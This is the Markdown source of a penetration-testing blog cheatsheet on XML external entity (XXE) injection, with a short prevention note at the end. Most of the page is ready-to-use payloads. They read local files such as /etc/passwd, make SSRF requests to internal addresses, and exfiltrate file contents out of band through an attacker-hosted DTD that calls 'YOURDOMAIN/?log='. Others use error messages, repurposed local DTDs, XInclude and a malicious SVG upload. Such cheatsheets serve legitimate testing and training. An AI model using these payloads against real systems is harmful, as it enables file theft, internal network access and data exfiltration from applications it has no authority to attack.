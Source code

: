 ```yaml
---
title: "XXE attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XXE cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20

tags: ["web", "penetest", "xxe"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. 

This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

## Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	{{< /highlight >}}
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	{{< /highlight >}}
	

## Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	{{< /highlight >}}
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	{{< /highlight >}}
	

- Exfiltrate data using a malicious external DTD

	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		{{< highlight xml "lineNos=false" >}}
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		{{< /highlight >}}
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		{{< highlight xml "lineNos=false" >}}
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		{{< /highlight >}}
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	{{< highlight xml "lineNos=false" >}}
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	{{< /highlight >}}
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	{{< /highlight >}}


## Others examples

- Exploiting XInclude to retrieve files

	Back to basics, simple efficient payload :
	
	{{< highlight xml "lineNos=false" >}}
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file://FILE_PATH_TO_RETRIEVE"/></foo>
	{{< /highlight >}}
	
	
- Exploiting XXE via image file upload

	For this attack you will have to prepare a SVG file containing the following payload and adapt parameters :
	
	{{< highlight xml "lineNos=false" >}} 
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file://FILE_PATH_TO_RETRIEVE" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	{{< /highlight >}}

	Then just upload it as an image and you should have the file data in your image display
	
	
## How to prevent them 

XXE exist due to bad handle of user input or used of dangerous function in used librairie.
The best way to prevent them is to include only necessaries functions or remove unnecessaries ones. 

Import ones to disable are `XInclude` and `external entities resolutions`